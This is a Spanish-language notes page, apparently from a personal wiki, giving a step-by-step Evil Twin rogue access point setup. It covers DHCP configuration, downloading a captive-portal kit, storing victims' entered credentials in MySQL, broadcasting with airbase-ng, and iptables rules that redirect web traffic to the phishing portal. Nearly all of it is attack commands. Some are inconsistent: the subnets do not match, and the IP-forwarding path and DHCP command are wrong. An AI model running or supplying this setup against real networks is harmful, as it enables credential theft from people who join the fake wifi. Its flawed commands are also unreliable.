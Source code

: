 Si bien sabemos el eviltwin consiste en montar una copia del AP victima con un portal cautivo, aqui puede saber mas sobre esto [[EvilTwin]].

Nota: Esto solo funciona para las tarjeta de red alpha, en mi caso es una tp-link, por lo tanto no funciana, pero existe una utilidad  **EvilTrust by s4vitar** que tira de [[HostAPD]].

Primero vamos a configurar un archivo dhcpd.conf (*demonio*) para que los clientes se les asigne una direccion IP.

	cd /etc
	nano dhcpd.conf

	authoritative;
	#Tiempo minimo/maximo para asignar una IP
	default-lease-time 600;
	max-lease-time 7200;
	subnet 192.168.2.128 netmask 255.255.255.128 {
		option subnet-mask 255.255.255.128;
		option broadcast-address 192.168.2.255;
		option routers 192.168.2.129;
		option domain-name-servers 8.8.8.8;
		range 192.168.2.130 192.168.2.140;
	}
	
Despues descargaremos un portal cautivo, lo ubicamos en */var/www/html*, ya que estas rutas son publicas.

	wget https://cdn.rootsh3ll.com/u/20180724181033/Rogue_AP.zip
	unzip Rogue_AP.zip
	mv Rogue_AP/* .

Ahora para poder visualizar este portal cautivo tendremos que enceder *Apache2* y *MySQL* para guardar el user y passwords ingresados.

	service apache2 start && service mysql start

Ahora si bien la plantilla cuenta con un archivo php donde se encuetra la conexion a la base datos, ahora debemos de realizar ciertas acciones en MySQL para la conexion.

1. Create database
2. Create table
3. Create user and assign privileges
Esto se encuentra en el archivo *dbconnect.php*.


Ahora montaremos el AP con *airbase-ng*.

	airbase-ng -e wifi-gratis -c 6 -P wlan0mon

-P *Responde a todos los probe request*
-c *Canal del AP*

Y ya veremos el AP transmitiendo Becon request, si bien *airbase-ng* nos pide una interfaz de red llamada *at0*, esta intefaz sera utilizada en modo [[Protocolos de Internet#Briged | Briged]] entre *wlan0mon* y *at0* para que al momento de que el usuario se conecte al AP sea redirigido al portal cuativo.

Ahora si vamos crear la interfaz de red *at0*, esto se tiene que realizar cuando el AP montado con airbase este activo.


	ifconfig at0 192.168.2.129 netmask 255.255.255.128


- 192.168.2.129 *Opcion de routers en el archivo dhcpd.conf*
- 255.255.255.128 *NetMask configurada en el dhcpd.conf*

Ahora añadimos esto a route.

	route add -net 192.168.100.128 netmask 255.255.255.128 gw 192.168.100.129

Ahora toca habilitar el enrutamiento en el equipo para que las reglas que asignemos por iptables tengan sentido para esto emitimos un 1.

	echo 1 > /proc/sys/net/ip_forward

Con esto ya podemos vizualizar la interfaz con ` ifconfig `

Ahora toca definir las reglas *Iptables* es decir que queremos hacer cuando el usuario trate de navegar, aplicaremos una limpieza por si hubiera algunas reglas creadas.

``` bash
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain

#Vizualizamos las reglas activas
iptables -S
iptables -L
```

La intencion es que cuando se conecte a nuestro AP responda la interfaz *eth0* (es con la que podemos navergar) para que puedan acceder a internet.

Ahora cuando definiremos las reglas para que cuando el usuario entre a una pagina http o https enviarlo a portal cautivo.

	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE

-eth0 *Indicamos la out interface la que va a nutrir at0*

Ahora indicamos como debe de nutrir a la interfaz *at0*.

	iptables --append FORWARD --in-interface at0 -j ACCEPT
		#Indicamos la rediccion del puerto 80 al portal cautivo
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination $(hostname | awk '{print $1}')

Ahora nos ubicamos en */etc* para aplicar el *dhcp*.

	dhcp -cf /etc/dhcpd.conf -pf /var/run/dhcp.pid at0

-cf *Indicamos el archivo de configuracion*
-pf *Indicamos la ruta donde guardaremos nuestro PID*

Al correr el dhcp puede que nos algunas cosas, por ejemplo:
1. Eliminar el archivo PID.
2. Crear un archivo en una ruta determinada.
